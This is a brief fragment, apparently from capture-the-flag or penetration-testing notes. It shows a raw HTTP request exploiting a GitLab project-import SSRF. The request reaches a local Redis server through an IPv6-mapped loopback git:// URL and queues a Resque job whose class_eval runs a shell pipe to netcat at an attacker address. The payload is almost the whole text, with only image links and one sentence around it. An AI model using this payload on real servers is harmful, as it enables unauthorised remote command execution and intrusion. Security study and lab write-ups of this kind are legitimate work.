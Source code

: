 ```http
utf8=%E2%9C%93&authenticity_token=aftxcmnuS8Omyy8hNlcAIh1FS4bve7Ynayo4MGngN2PDRqLqEX40n3qKOSG9ZTLRNR9rxOakhyzSTKGlyqrl6Q%3D%3D&project%5Bimport_url%5D=<@urlencode_all>git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|echo pippo | nc 10.10.14.24 1234\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git <@/urlencode_all>&project%5Bci_cd_only%5D=false&project%5Bname%5D=test&project%5Bnamespace_id%5D=3&project%5Bpath%5D=test&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
```

![Pasted image 20210429225435.png](../../zzz_res/attachments/Pasted_image_20210429225435.png)

The resulting request was the following one:

![Pasted image 20210429225703.png](../../zzz_res/attachments/Pasted_image_20210429225703.png)
